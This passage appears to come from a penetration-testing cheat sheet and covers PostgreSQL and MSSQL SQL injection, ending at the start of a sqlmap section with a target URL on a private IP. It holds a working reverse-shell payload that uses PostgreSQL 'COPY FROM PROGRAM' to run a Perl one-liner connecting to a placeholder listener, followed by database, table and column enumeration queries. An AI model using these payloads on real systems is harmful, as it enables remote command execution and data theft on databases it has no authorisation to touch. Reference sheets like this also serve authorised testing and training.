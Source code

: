   

##### 16.7.3.2.1	REVERSE SHELL

```
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<LISTENER_IP>:<LISTENER_PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

### 16.7.4	ENUMERATION [41][42][43]

#### 16.7.4.1	VERSION

```
VERSION()
```

#### 16.7.4.2	DATABASE

```
select datname FROM pg_database

select current_database()
```

#### 16.7.4.3	TABLES

```
select schemaname,tablename,tableowner from pg_tables;
```

#### 16.7.4.4	COLUMNS

```
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## 16.8	MICROSOFT SQL (MSSQL) SPECIFIC

### 16.8.1	ENUMERATION

#### 16.8.1.1	RETURN 1 ROW

- Alternative to LIMIT and OFFSET keywords

```
... ORDER by <column> OFFSET <index> ROWS FETCH NEXT 1 ROWS ONLY;
```

  
# 17	SQLMAP

## 17.1	BASIC ATTACK FLOW [4,5]

Target: `http://10.102.9.174/DBSearch?name=test3&age=test3&location=test3&type=insurer`
